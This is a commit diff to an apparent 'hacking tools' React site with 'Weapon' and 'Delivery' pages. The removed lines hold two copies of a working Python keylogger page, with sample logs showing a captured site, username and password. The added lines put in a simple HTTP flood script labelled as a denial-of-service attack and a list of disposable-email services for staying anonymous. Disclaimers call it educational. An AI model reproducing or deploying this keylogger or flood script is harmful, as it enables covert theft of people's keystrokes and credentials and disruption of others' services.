

Before and after one commit to Fiery-Warrior/pub-mm-web, a React (Create React App) app: page /FileDisplayemail in a window 1280 px wide. Shown: the top 800 px of the page. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
added some delivery methods

```diff
--- a/src/Navbar/index.js
+++ b/src/Navbar/index.js
@@ -49,7 +49,7 @@
 
 
 
-			<a href="/" target="_blank"> {/**Was /Pub removed though so '/' this is the landing page */}
+			<a href="/home" target="_blank"> {/*points to home */}
 			<img src={logo} alt="logo" style={{width: '200px', height: '35px'}} className='logo-moriarty'/>
 			</a>
 
@@ -77,7 +77,7 @@
 
 
 
-            <a href="/home">
+            <a href="/">{/**Was /Pub removed though so '/' this is the landing page */}
             <AiFillHome className='icon-house' id = 'home' />
             </a>
 
--- a/src/pages/Delivery/email/FileDisplayemail.jsx
+++ b/src/pages/Delivery/email/FileDisplayemail.jsx
@@ -1,104 +1,40 @@
-import React, { useState, useEffect } from 'react';
-import '../filedisplay.css';
+import React from 'react';
+import './email.css';
+import { MdEmail } from 'react-icons/md';
+import { BsLinkedin } from 'react-icons/bs';
+import { BsStopwatchFill } from 'react-icons/bs';
+import { GiCampfire } from 'react-icons/gi';
+import { SiProtonmail } from 'react-icons/si';
 
-const FileDisplayemail = () => {
+function Email() {
+
+  const linkStyle = {
+    color: 'white',
+    textDecoration: 'none',
+    borderBottom: '1px solid yellow',
+  };
 
   return (
-    <div className="file-display-container">
-      <div className="file-display-item">
-        <h2 className="file-display-heading">Email.py</h2>
-        <pre className="file-display-content">
-          <code>
-            {`
-# Import necessary packages
-from pynput.keyboard import Key, Listener
-import logging
-import os
+    <div className="App">
+      <main>
+        <section>
+          <h1>Stay Anonymous</h1>
+          <br/>
+          <ul className='text-and-icons'>
+            <li><BsLinkedin/> <a href="https://temp-mail.org/en/" style={linkStyle}>TempMail</a></li>
+            <li><BsStopwatchFill/> <a href="https://10minutemail.com/" style={linkStyle}>10 Minute Mail</a></li>
+            <li><GiCampfire /> <a href="https://burnermail.io/" style={linkStyle}>Burner Mail</a></li>
+            <li><MdEmail /> <a href="https://tempail.com/" style={linkStyle}>Tempail</a></li>
+            <li><SiProtonmail /> <a href="https://proton.me/" style={linkStyle}>Proton Mail</a></li>
+          </ul>
+        </section>
 
-# Set the directory and filename for the log file
-log_dir = os.getcwd() + "/"
-log_file = log_dir + "keylogging.txt"
 
-# Configure the logger to write to the log file
-logging.basicConfig(filename=log_file,
-                    level=logging.DEBUG, format='%(asctime)s: %(message)s')
+        <p>*Reminder Moriarty's Matrix is for educational use only (any mis-uses of this project is ONLY the user's fault)</p>
 
-# Define the function to be called when a key is pressed
-def on_press(key):
-    logging.info(str(key)) # Write the key to the log file
-
-# Start a listener to monitor key presses
-with Listener(on_press=on_press) as listener:
-    try:
-        listener.join() # Wait for the listener to end
-    except KeyboardInterrupt:
-        pass # If the user interrupts the program, exit
-
-            `}
-          </code>
-        </pre>
-      </div>
-      <div className="file-display-item">
-        <h2 className="file-display-heading">Example Output</h2>
-        <pre className="file-display-content">
-          <code>
-            {`
-2023-03-28 21:50:41,985: 't'
-2023-03-28 21:50:42,169: 'e'
-2023-03-28 21:50:42,442: 's'
-2023-03-28 21:50:42,690: 't'
-2023-03-28 21:50:42,834: 'i'
-2023-03-28 21:50:43,001: 'n'
-2023-03-28 21:50:43,073: 'g'
-2023-03-28 21:50:43,257: Key.enter
-2023-03-28 21:50:46,490: 'f'
-2023-03-28 21:50:46,624: 'a'
-2023-03-28 21:50:46,908: 'c'
-2023-03-28 21:50:47,100: 'e'
-2023-03-28 21:50:47,403: 'b'
-2023-03-28 21:50:47,667: 'o'
-2023-03-28 21:50:47,827: 'o'
-2023-03-28 21:50:48,011: 'k'
-2023-03-28 21:50:48,363: '.'
-2023-03-28 21:50:48,539: 'c'
-2023-03-28 21:50:48,803: 'o'
-2023-03-28 21:50:49,148: 'm'
-2023-03-28 21:50:49,406: Key.enter
-2023-03-28 21:50:53,085: 'j'
-2023-03-28 21:50:53,678: 'o'
-2023-03-28 21:50:55,231: 'h'
-2023-03-28 21:50:56,111: 'n'
-2023-03-28 21:50:59,921: '5'
-2023-03-28 21:51:00,137: '5'
-2023-03-28 21:51:00,524: '6'
-2023-03-28 21:51:00,758: '7'
-2023-03-28 21:51:08,413: 'm'
-2023-03-28 21:51:08,710: 'y'
-2023-03-28 21:51:09,222: 'p'
-2023-03-28 21:51:09,365: 'a'
-2023-03-28 21:51:09,542: 's'
-2023-03-28 21:51:09,733: 's'
-2023-03-28 21:51:10,624: 'w'
-2023-03-28 21:51:10,895: 'o'
-2023-03-28 21:51:11,103: 'r'
-2023-03-28 21:51:11,343: 'd'
-2023-03-28 21:51:12,448: '1'
-2023-03-28 21:51:12,824: '2'
-2023-03-28 21:51:13,185: Key.shift
-2023-03-28 21:51:13,424: '!'
-            `}
-          </code>
-        </pre>
-      </div>
-      <div className="file-display-item">
-        <h2 className="file-display-heading">Description</h2>
-        <p className="file-display-description">Install using: pip install pynput
-        <br/>File location may be changed<br/><br/>
-        The code imports necessary packages, sets the directory and filename for the log file, and configures the logger to write to the log file. It then defines a function to be called when a key is pressed and starts a listener to monitor key presses. The logger records every key pressed by the user and stores it in the log file. This code can be used for security purposes to monitor user activity or as a tool for debugging applications.
-        </p>
-      </div>
+      </main>
     </div>
   );
-};
+}
 
-export default FileDisplayemail;
+export default Email;
--- /dev/null
+++ b/src/pages/Delivery/email/email.css
@@ -0,0 +1,77 @@
+body {
+  /* background-color: #39322c; */
+  color: white;
+  font-family: Arial, sans-serif;
+  font-size: 16px;
+}
+
+.text-and-icons{
+  font-size: 25px;
+}
+
+header, footer {
+  background-color: #333;
+  color: white;
+  display: flex;
+  justify-content: space-between;
+  align-items: center;
+  padding: 1rem;
+}
+
+.logo {
+  display: flex;
+  align-items: center;
+}
+
+.logo img {
+  width: 50px;
+  height: auto;
+  margin-right: 1rem;
+  }
+
+  nav {
+  display: flex;
+  justify-content: center;
+  align-items: center;
+  }
+
+  nav a {
+  color: white;
+  text-decoration: none;
+  margin: 0 1rem;
+  font-weight: bold;
+  text-transform: uppercase;
+  transition: color 0.3s ease-in-out;
+  }
+
+  nav a:hover {
+  color: #c0c0c0;
+  }
+
+  section {
+  padding: 2rem;
+  }
+
+  h1 {
+  font-size: 2rem;
+  font-weight: bold;
+  margin-bottom: 1rem;
+  }
+
+  h2 {
+  font-size: 1.5rem;
+  font-weight: bold;
+  margin-bottom: 1rem;
+  }
+
+  p {
+  margin-bottom: 1rem;
+  }
+
+  ul {
+  margin-bottom: 1rem;
+  }
+
+  li {
+  margin-bottom: 0.5rem;
+  }
--- a/src/pages/Weapon/dos/FileDisplaydos.jsx
+++ b/src/pages/Weapon/dos/FileDisplaydos.jsx
@@ -6,96 +6,66 @@
   return (
     <div className="file-display-container">
       <div className="file-display-item">
-        <h2 className="file-display-heading">Keylogger.py</h2>
+        <h2 className="file-display-heading">DOS.py</h2>
         <pre className="file-display-content">
           <code>
             {`
-# Import necessary packages
-from pynput.keyboard import Key, Listener
-import logging
-import os
+import requests
 
-# Set the directory and filename for the log file
-log_dir = os.getcwd() + "/"
-log_file = log_dir + "keylogging.txt"
+# specify the IP address and the number of requests to send
+#Reminder: this is only for eductional use and should not be used if used, use at YOUR OWN risk and fault
+#and if anything wrong or unexpected occours that is YOUR fault
+ip_address = "put_ip_adress_here"
+num_requests = 100
 
-# Configure the logger to write to the log file
-logging.basicConfig(filename=log_file,
-                    level=logging.DEBUG, format='%(asctime)s: %(message)s')
+# create a session object to reuse the same underlying TCP connection
+session = requests.Session()
 
-# Define the function to be called when a key is pressed
-def on_press(key):
-    logging.info(str(key)) # Write the key to the log file
-
-# Start a listener to monitor key presses
-with Listener(on_press=on_press) as listener:
+# send a GET request to the specified IP address num_requests times
+for i in range(num_requests):
     try:
-        listener.join() # Wait for the listener to end
-    except KeyboardInterrupt:
-        pass # If the user interrupts the program, exit
+        # send a GET request using the session object
+        response = session.get(f"http://{ip_address}")
+        # print the status code of the response for each request
+        print(f"Request {i+1} sent with status code {response.status_code}")
+    except requests.exceptions.RequestException as e:
+        # if the request fails, log the error message to a file
+        with open("errors.log", "a") as f:
+            f.write(f"Request {i+1} failed with error {e}\n")
 
             `}
           </code>
         </pre>
       </div>
-      <div className="file-display-item">
-        <h2 className="file-display-heading">Example Output</h2>
-        <pre className="file-display-content">
-          <code>
-            {`
-2023-03-28 21:50:41,985: 't'
-2023-03-28 21:50:42,169: 'e'
-2023-03-28 21:50:42,442: 's'
-2023-03-28 21:50:42,690: 't'
-2023-03-28 21:50:42,834: 'i'
-2023-03-28 21:50:43,001: 'n'
-2023-03-28 21:50:43,073: 'g'
-2023-03-28 21:50:43,257: Key.enter
-2023-03-28 21:50:46,490: 'f'
-2023-03-28 21:50:46,624: 'a'
-2023-03-28 21:50:46,908: 'c'
-2023-03-28 21:50:47,100: 'e'
-2023-03-28 21:50:47,403: 'b'
-2023-03-28 21:50:47,667: 'o'
-2023-03-28 21:50:47,827: 'o'
-2023-03-28 21:50:48,011: 'k'
-2023-03-28 21:50:48,363: '.'
-2023-03-28 21:50:48,539: 'c'
-2023-03-28 21:50:48,803: 'o'
-2023-03-28 21:50:49,148: 'm'
-2023-03-28 21:50:49,406: Key.enter
-2023-03-28 21:50:53,085: 'j'
-2023-03-28 21:50:53,678: 'o'
-2023-03-28 21:50:55,231: 'h'
-2023-03-28 21:50:56,111: 'n'
-2023-03-28 21:50:59,921: '5'
-2023-03-28 21:51:00,137: '5'
-2023-03-28 21:51:00,524: '6'
-2023-03-28 21:51:00,758: '7'
-2023-03-28 21:51:08,413: 'm'
-2023-03-28 21:51:08,710: 'y'
-2023-03-28 21:51:09,222: 'p'
-2023-03-28 21:51:09,365: 'a'
-2023-03-28 21:51:09,542: 's'
-2023-03-28 21:51:09,733: 's'
-2023-03-28 21:51:10,624: 'w'
-2023-03-28 21:51:10,895: 'o'
-2023-03-28 21:51:11,103: 'r'
-2023-03-28 21:51:11,343: 'd'
-2023-03-28 21:51:12,448: '1'
-2023-03-28 21:51:12,824: '2'
-2023-03-28 21:51:13,185: Key.shift
-2023-03-28 21:51:13,424: '!'
-            `}
-          </code>
-        </pre>
-      </div>
+
       <div className="file-display-item">
         <h2 className="file-display-heading">Description</h2>
-        <p className="file-display-description">Install using: pip install pynput
-        <br/>File location may be changed<br/><br/>
-        The code imports necessary packages, sets the directory and filename for the log file, and configures the logger to write to the log file. It then defines a function to be called when a key is pressed and starts a listener to monitor key presses. The logger records every key pressed by the user and stores it in the log file. This code can be used for security purposes to monitor user activity or as a tool for debugging applications.
+        <p className="file-display-description">Denial Of Service Attack (DOS)
+        This code is written in Python and uses the requests library to send HTTP requests to a specified IP address. It sends a GET request to the IP address specified in the variable ip_address a total of num_requests times.
+<br/>
+<br/>
+The code creates a session object using the requests.Session() method, which allows the same underlying TCP connection to be reused for all requests. This can improve performance, especially when making multiple requests to the same server.
+<br/>
+<br/>
+A for loop is used to send the requests num_requests times. Each time through the loop, a GET request is sent to the specified IP address using the session.get() method, and the response is stored in the response variable.
+
+
         </p>
+        {/**
+         The first line of the code imports the requests library. This library allows us to make HTTP requests and interact with web pages or APIs. In this case, we're using it to send GET requests to a specific IP address.
+
+Next, we set the IP address we want to send requests to and the number of requests we want to send. These are stored in the variables ip_address and num_requests, respectively.
+
+The code then creates a Session object using requests.Session(). This session object allows us to reuse the underlying TCP connection for all requests, which can improve performance by avoiding the overhead of creating a new connection for each request.
+
+The for loop is used to send a total of num_requests GET requests to the specified IP address. The range() function is used to create a sequence of numbers from 0 to num_requests-1, and the loop variable i is assigned each of these values in turn.
+
+For each iteration of the loop, the code sends a GET request to the IP address specified in ip_address using the session.get() method. The f string notation is used to insert the value of ip_address into the URL for each request. The response from the server is stored in the response variable.
+
+After sending each request, the code prints a message to the console indicating the status code of the response. This is done using the print() function and the f string notation to insert the values of i and response.status_code.
+
+If any errors occur during the requests, they will be caught by the try/except block. The except block logs the error message to a file called "errors.log". This is done using the with statement and the "a" flag to open the file in append mode. The error message is written to the file using the write() method of the file object.
+         */}
       </div>
     </div>
   );
```
Also changed, not shown: src/pages/Delivery/FileDisplaytext.jsx (+23 -85 lines), src/pages/Delivery/email/FileDisplayemail.txt (added), 1 other file (tests, documents, lock files or other folders).
